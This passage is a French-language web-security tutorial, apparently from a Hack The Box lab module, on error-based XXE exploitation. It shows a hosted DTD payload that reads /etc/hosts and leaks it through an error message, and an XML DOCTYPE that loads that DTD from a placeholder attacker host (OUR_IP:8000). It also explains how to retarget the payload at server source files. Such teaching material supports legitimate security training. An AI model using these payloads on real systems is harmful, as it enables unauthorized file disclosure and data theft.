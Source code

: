 Si l'application Web affiche des erreurs d'exécution (par exemple, des erreurs PHP) et ne dispose pas d'une gestion appropriée des exceptions pour l'entrée XML, nous pouvons utiliser cette faille pour lire la sortie de l'exploit XXE. Si l'application Web n'écrit pas de sortie XML ni n'affiche d'erreurs, nous serions confrontés à une situation complètement aveugle, dont nous parlerons dans la section suivante.

Considérons l'exercice que nous avons `/error`à la fin de cette section, dans lequel aucune des entités d'entrée XML n'est affichée à l'écran. Pour cette raison, nous n'avons aucune entité que nous pouvons contrôler pour écrire la sortie du fichier. Essayons d'abord d'envoyer des données XML malformées et voyons si l'application Web affiche des erreurs. Pour ce faire, nous pouvons supprimer n'importe laquelle des balises de fermeture, en modifier une pour qu'elle ne se ferme pas (par exemple `<roo>`à la place de `<root>`), ou simplement référencer une entité inexistante, comme suit : ![cause_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

Nous voyons que nous avons effectivement provoqué l'affichage d'une erreur dans l'application Web, et cela a également révélé le répertoire du serveur Web, que nous pouvons utiliser pour lire le code source d'autres fichiers. Maintenant, nous pouvons exploiter cette faille pour exfiltrer le contenu du fichier. Pour ce faire, nous utiliserons une technique similaire à celle que nous avons utilisée précédemment. Tout d'abord, nous allons héberger un fichier DTD contenant la charge utile suivante :

Code : xml

```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

```

La charge utile ci-dessus définit l' `file`entité de paramètre, puis la joint à une entité qui n'existe pas. Dans notre exercice précédent, nous joignions trois chaînes. Dans ce cas, `%nonExistingEntity;`n'existe pas, de sorte que l'application Web génère une erreur indiquant que cette entité n'existe pas, ainsi que notre joint `%file;`dans le cadre de l'erreur. De nombreuses autres variables peuvent provoquer une erreur, comme un mauvais URI ou des caractères incorrects dans le fichier référencé.

Maintenant, nous pouvons appeler notre script DTD externe, puis référencer l' `error`entité, comme suit :

Code : xml

```
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>

```

Une fois que nous avons hébergé notre script DTD comme nous l'avons fait précédemment et envoyé la charge utile ci-dessus en tant que nos données XML (inutile d'inclure d'autres données XML), nous obtiendrons le contenu du `/etc/hosts`fichier comme suit : ![erreur_exfil](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

Cette méthode peut également être utilisée pour lire le code source des fichiers. Tout ce que nous avons à faire est de changer le nom du fichier dans notre script DTD pour qu'il pointe vers le fichier que nous voulons lire (par exemple `"file:///var/www/html/submitDetails.php"`). Cependant, `this method is not as reliable as the previous method for reading source files`, car il peut avoir des limites de longueur, et certains caractères spéciaux peuvent toujours le casser.Exfiltration de données en aveugle
==================================
